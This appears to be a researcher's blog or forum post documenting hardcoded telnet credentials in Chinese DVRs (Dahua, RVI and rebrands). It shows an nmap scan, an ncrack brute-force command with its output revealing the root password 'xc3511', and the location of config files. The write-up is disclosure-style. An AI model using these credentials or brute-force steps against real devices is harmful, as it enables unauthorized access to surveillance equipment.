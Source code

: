 <h1>Hardcoded telnet login\password in Chinese DVR, like Dahua, RVI.</h>

<br/>Also, it can be rebranded and sell under a different name.
<p>
Nmap report looks interesting:
Nmap scan report for 192.168.100.15
Host is up (0.0050s latency).
Not shown: 65527 closed ports
</p>
PORT      STATE    SERVICE        VERSION

23/tcp    open     telnet         BusyBox telnetd
81/tcp    open     http           uc-httpd 1.0.0
445/tcp   filtered microsoft-ds
4090/tcp  open     ssl/omasgport?
9527/tcp  open     unknown
9528/tcp  open     unknown
34567/tcp open     dhanalakshmi?
34599/tcp open     unknown

Device type: WAP
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.36
OS details: DD-WRT v24-sp1 (Linux 2.4.36)
Network Distance: 5 hops
Service Info: Host: LocalHost

And, with ncrack i "recover" hardcored telnet creds.

ncrack 192.168.100.15:23 -U logins.txt -P passwords.txt
Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-05-26 13:06
Discovered credentials for telnet on 192.168.100.15 23/tcp:
192.168.100.15:23 23/tcp telnet: 'root' 'xc3511'
Ncrack done: 1 service scanned in 27.06 seconds.
Ncrack finished.

Web-ui configuration files are stored in /mnt/mtd/Config/, but i did not understand password hash in file Account1.
Also, in my case sed did not work. Empty password hash - tlJwpbo6.

Still work on this.
